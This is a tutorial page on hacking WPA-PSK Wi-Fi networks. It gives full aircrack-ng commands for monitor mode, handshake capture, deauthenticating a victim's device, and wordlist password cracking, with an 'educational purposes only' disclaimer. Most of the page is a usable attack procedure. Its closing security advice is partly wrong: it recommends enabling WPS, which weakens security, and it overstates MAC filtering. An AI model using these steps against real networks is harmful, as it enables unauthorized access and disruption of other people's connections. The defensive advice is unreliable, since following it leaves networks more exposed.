 ```yaml
---
title: 👾 WPA-PSK Hacking
permalink: /wpa_psk_hacking/
layout: default
nav_order: 5
---
```


# **WPA-PSK HACKING**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize **WPA-PSK (Wi-Fi Protected Access Pre-Shared Key) encryption**, which is commonly used in wireless networks to secure data transmission.

While it offers a level of security, there are **vulnerabilities** to consider. This guide will explore one of the most common methods of hacking **WPA-PSK** networks.

{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is **strictly for educational purposes**. Engaging in these activities on networks without proper authorization is **illegal**. This is for **educational purposes only**. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## **Introduction**

When you connect to a network from a wireless device, a **handshake** is sent from the device to the **router**. This **handshake** contains the **encrypted password**.

While it's not possible to reverse the **encrypted password**, you can use a technique called a **word list attack**. A word list is a huge text file containing **thousands of passwords**. By comparing the encrypted **handshake** password with the passwords in the word list, you can determine the real password.

## **Requirements**

- `Linux` distro distribution;
- PC with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### **Determine the Network Interface**

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with (e.g. `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including **IP addresses**, **MAC addresses**, and **related configurations**. It is used for troubleshooting and network configuration purposes.

### **Enable Monitor Mode**

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### **Verify Monitor Mode**

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card **doesn't support monitor mode**, and you'll need the external network card mentioned earlier.

### **Scan for Networks**

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` **(Network MAC Addresses)** and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### **Target Network**

<div class="code-example" markdown="1">
Identify and copy/save the `BSSID` and `channel` of the network you wish to attack.
</div>

### **Capture the Handshake**

<div class="code-example" markdown="1">
This command will show all the devices currently connected to that network and the amount of `packets` being sent to each device.
<br>For example, watching a video will increase the number of packets sent to the device by a lot.
<br>Type this command in a new terminal window:
</div>
```bash
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - the desired name for the captured handshake file;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Deauthentication Attack**

<div class="code-example" markdown="1">
Now we need to to send `de-authentication packets` to the victim's device, forcing it to disconnect and reconnect to the network, so we can capture the `handshake`.
<br>Leave the previous terminal open (running) and use this command in another terminal:
</div>
```bash
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `-0 10` - number of de-authentication packets to send;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to de-authenticate;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Capture the Handshake**

<div class="code-example" markdown="1">
Observe the terminal running `airodump-ng` capture the `handshake` and wait for the device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.
</div>

### **Word List Attack**
<div class="code-example" markdown="1">
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from [here](https://www.kali.org/tools/wordlists).
<br>Now let's attempt to match the captured handshake with passwords from the word list.
</div>
```bash
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g. **/usr/share/wordlists/rockyou.txt**);
- `<filename>` - name of the captured **handshake** file;

### **Cracked!**
<div class="code-example" markdown="1">
Congratulations! If the password is found in the word list, it will be displayed.
<br>After performing these steps, your internet connection may still be interrupted.
<br>To fix this, you can either restart your computer or execute the command:
</div>
```bash
airmon-ng stop <monitor interface>
systemctl restart network*
```

## **Protecting Yourself**
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list, like **passphrases**. Additionally, you can enable **MAC address filtering** and **WPS (Wi-Fi Protected Setup)** to enhance security.

## **Conclusion**
We explored the process of WPA-PSK hacking. It is essential to respect **privacy** and **legality** when using these techniques. We learned about capturing **handshakes**, performing **de-authentication attacks**, and cracking passwords using **word lists**. Remember to always use this knowledge responsibly and protect yourself.